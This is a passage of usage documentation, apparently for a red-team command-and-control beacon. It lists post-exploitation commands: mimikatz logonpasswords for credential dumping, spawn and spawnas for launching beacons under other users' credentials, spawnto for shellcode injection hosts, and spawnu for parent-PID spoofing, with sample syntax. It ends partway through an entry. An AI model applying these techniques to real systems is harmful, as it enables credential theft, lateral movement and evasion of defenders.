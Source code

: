 * **logonpassword:** Executes the well know **logonpasswords** function of mimikatz on the current machine. This function of course uses process injection so isn't OPSEC safe, use it with precaution.
* **mimikatz:** You can execute any function of mimikatz, mimikatz driver functionality is not included.

### Miscellaneous

* **spawn:** Spawn a new beacon on the current machine, you can choose any type of listener you want.
* **spawn Usage:**

```
spawn [x86|x64] [listener]
```

i.e.

```
spawn x64 Lab-HTTPS
spawn x86 Lab-SMB
...
```

* **spawnas:** Spawn a new beacon on the current machine as another user by providing credentials.
* **spawnas Usage:**

```
spawnas [DOMAIN\user] [password] [listener]
```

i.e.

```
spawnas CORP\bob.smith baseBall1942 Lab-SMB
spawnas Administrator SuperS3cRetPaSsw0rD Lab-HTTPS
...
```

* **spawnto:** Sets the executable that beacon will use to spawn and inject shellcode into it for it's post-exploitation functionality. You must specify a full path to the executable.

```
spawnto [x86|x64] [c:\path\to\whatever.exe] 
```

i.e.

```
spawnto x64 c:\programdata\beacon.exe
spawnto x86 c:\users\S1ckB0y1337\NotMalware\s1ck.exe
```

* **spawnu:** Attempt to spawn a session with a spoofer PID as its parent, the context of the process will match the identity of the specified PID.

```
spawnu [pid] [listener]
```

i.e.
